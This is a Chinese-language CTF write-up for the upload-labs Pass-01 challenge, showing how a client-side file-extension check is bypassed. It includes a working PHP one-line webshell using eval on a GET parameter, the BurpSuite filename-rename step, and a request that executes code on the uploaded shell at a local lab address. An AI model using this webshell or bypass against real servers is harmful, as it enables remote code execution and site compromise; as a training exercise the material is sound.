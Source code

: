 ## [[upload-labs](https://github.com/c0ny1/upload-labs)] [[Pass-01](http://127.0.0.1/Pass-01/index.php)] [[解题报告](http://exp-blog.com/2019/05/26/pid-3827/)]

------

## 题目

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

------

## 解题

从源码很明显可以知道，代码只对上传的 **文件名后缀** 做检验，因此可以 **从客户端绕过** 。

伪造一个图片文件，文件名为 `payload.png` ，内容为 PHP 的一句话木马 ：

```php
<?php eval(@$_GET['exp']); ?>
```

上传此文件后，因为文件后缀为 `.png` ，所以即使打开图片也无法解析 PHP 代码。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/01.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/02.png)


要绕过其实很简单，只需要用 BurpSuite 拦截上传文件的 POST 请求，然后修改 POST 内容中的文件名，把 `payload.png` 修改成 `payload.php` （注意 `Content-Type` 要确保为图片类型）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/03.png)

上传成功后，访问改名后的 `payload.php` 文件，并利用一句话木马执行 `phpinfo();` 命令：

```html
http://127.0.0.1/upload/payload.php?exp=phpinfo();
```

解析 `phpinfo();` 命令成功，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
